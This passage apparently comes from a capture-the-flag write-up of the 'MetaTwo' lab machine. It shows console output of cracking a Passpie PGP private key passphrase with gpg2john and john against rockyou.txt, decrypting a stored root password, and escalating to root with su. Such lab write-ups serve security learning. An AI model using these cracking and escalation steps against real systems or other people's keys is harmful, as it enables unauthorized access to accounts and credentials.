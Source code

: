 We copy over the private PGP key and use `john` to crack the password for the key.

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo/root2]
└─$ vi private_key  
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo/root2]
└─$ gpg2john private_key >private_key_hash

File private_key
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo/root2]
└─$ cat private_key_hash 
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::private_key
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo/root2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt private_key_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:03 DONE (2023-04-24 10:46) 0.3164g/s 51.89p/s 51.89c/s 51.89C/s ginger..blink182
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

{% endhighlight %}

Using an online PGP decrypter we are able to find the password for root using the previously discovered pgp message in `root.pass`, private key in `.keys`, and the password `blink182`.

<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="assets/img/metatwo/12.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

We can now su to root.
{% highlight console %}
jnelson@meta2:~/.passpie$ su root
Password: 
root@meta2:/home/jnelson/.passpie# whoami
root
root@meta2:/home/jnelson/.passpie# id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight%}
